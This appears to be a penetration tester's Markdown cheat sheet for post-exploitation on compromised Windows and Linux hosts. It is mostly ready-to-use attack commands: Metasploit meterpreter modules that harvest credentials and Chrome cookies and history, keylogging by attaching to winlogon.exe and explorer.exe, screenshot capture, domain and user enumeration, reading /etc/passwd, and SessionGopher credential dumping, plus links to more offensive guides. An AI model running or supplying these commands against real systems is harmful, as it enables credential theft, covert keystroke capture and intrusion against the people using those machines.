 # Gather info
## Metasploit
* `meterpreter> run post/windows/gather/*`
* `meterpreter> run post/linux/gather/*`
* `meterpreter> run post/windows/gather/credentials/*`
* `meterpreter> run post/linux/gather/credentials/*`
* `run post/windows/gather/credentials/credential_collector`
* `meterpreter> run post/windows/gather/enum_domains`
* `meterpreter> run post/windows/gather/enum_ad_users`
* `meterpreter> run post/windows/gather/enum_shares`
* `meterpreter> run post/windows/gather/enum_applications`

## Windows
* `net view /domain`
* `net group "<domain-name>" /domain` - get list of domain controllers
* `net users`
* `net localgroup <group-name>`
* `net share`
</br>__Services__</br>
* `tasklist /svc`
</br>__Privileges__</br>
* `whoami /priv`
* `whoami /groups`
* `whoami /all`
</br>__Powershell__</br>
  * `Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id` - identify SYSTEM processes 

## Linux
* `cat /etc/passwd`

## Cool resources
* Windows
    * https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit?hl=en_US
    * https://tim3warri0r.blogspot.com/
* Linux
    * https://docs.google.com/document/d/1ObQB6hmVvRPCgPTRZM5NMH034VDM-1N-EWPRz2770K4/edit?hl=en_US
    * https://book.hacktricks.xyz/linux-hardening/linux-post-exploitation
* OSX        - https://docs.google.com/document/d/10AUm_zUdAQGgoHNo_eS0SO1K-24VVYnulUD2x3rJD3k/edit?hl=en_US
* Metasploit - https://docs.google.com/document/d/1ZrDJMQkrp_YbU_9Ni9wMNF2m3nIPEA_kekqqqA2Ywto/edit?pref=2&pli=1


# Gather data
## Metasploit
* `meterpreter> run scraper`
* `meterpreter> run winenum`
* `meterpreter> screenshot`
* keylogging
   * screen unlock          -> attach process to __winlogon.exe__
   * application keystrokes -> attach processes to __explorer.exe__
   * `meterpreter> keyscan_start` - start sniffer
   1. `meterpreter> keyscan_dump` - print keystrikes on screen
   2. `meterpreter> keyscan_stop` - stop sniffer
  </br>or</br>
   * `meterpreter> keylogrecorder` - start sniffer
 * `meterpreter> run post/windows/gather/credentials` - double tab to see all modules
 * `meterpreter> run post/windows/gather/enum_chrome` - chrome data: cookies, credentials, history
 * `meterpreter> run post/windows/gather/credentials/credential_collector`
 * `meterpreter> run post/multi/gather` - double tab to see all modules

## Other tools
* SessionGopher - dump local credentials (Windows)

## Cool resources
* https://wiki.zacheller.dev/pentest/post-exploitation/file-transfers

